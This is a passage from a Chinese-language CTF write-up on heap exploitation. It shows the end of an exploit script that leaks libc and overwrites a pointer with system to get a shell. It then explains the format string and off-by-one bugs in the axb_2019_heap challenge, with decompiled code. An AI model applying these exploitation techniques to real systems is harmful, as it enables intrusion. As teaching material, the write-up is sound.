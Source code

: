 ```
puts_addr = u64(io.recvuntil(":")[:6].ljust(8,'\x00'))

libc_base = puts_addr - libc.symbols['free']
system = libc_base + libc.symbols['system']

edit(0, 8, p64(system))
delete(3)

io.interactive()
```



## 0x10 axb_2019_heap

一道格式化字符串漏洞 + off-by-one的综合应用。

首先在banner函数中存在格式化字符串漏洞，可以找到偏移量为8，由于这题开启了PIE，所以我们可以利用格式化字符串漏洞来泄露出栈上的数据从而得到libc的基址和程序的基址。

```
unsigned __int64 banner()
`{`
  char format[12]; // [rsp+Ch] [rbp-14h] BYREF
  unsigned __int64 v2; // [rsp+18h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  puts("Welcome to note management system!");
  printf("Enter your name: ");
  __isoc99_scanf("%s", format);
  printf("Hello, ");
  printf(format);
  puts("\n-------------------------------------");
  return __readfsqword(0x28u) ^ v2;
`}`
```

gdb调试观察栈上的数据，可以发现偏移为11处为 `&lt;main+28&gt;` 的地址，可算出程序的基址。然后偏移为15处为 `&lt;__libc_start_main+240&gt;` 的地址，可算出libc的基址。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t0157fe01a721c7e678.png)

解决了这个问题后，再来看看程序，有三个功能，添加、修改和删除，其中添加函数中对key值有一个判断，不等于43的话对申请的大小存在限制，不能小于等于0x80。

然后在edit函数中使用了get_input函数对chunk进行输入，最后的地方有一个判断 `if ( a2 + 1 &lt;= v3 )` ，也就是说存在off-by-one漏洞。

```
size_t __fastcall get_input(__int64 a1, unsigned int a2)
`{`
  size_t result; // rax
  signed int v3; // [rsp+10h] [rbp-10h]
  _BYTE *v4; // [rsp+18h] [rbp-8h]

  v3 = 0;
  while ( 1 )
  `{`
    v4 = (_BYTE *)(v3 + a1);
    result = fread(v4, 1uLL, 1uLL, stdin);
    if ( (int)result &lt;= 0 )
      break;
    if ( *v4 == 10 )
    `{`
      if ( v3 )
      `{`
        result = v3 + a1;
        *v4 = 0;
```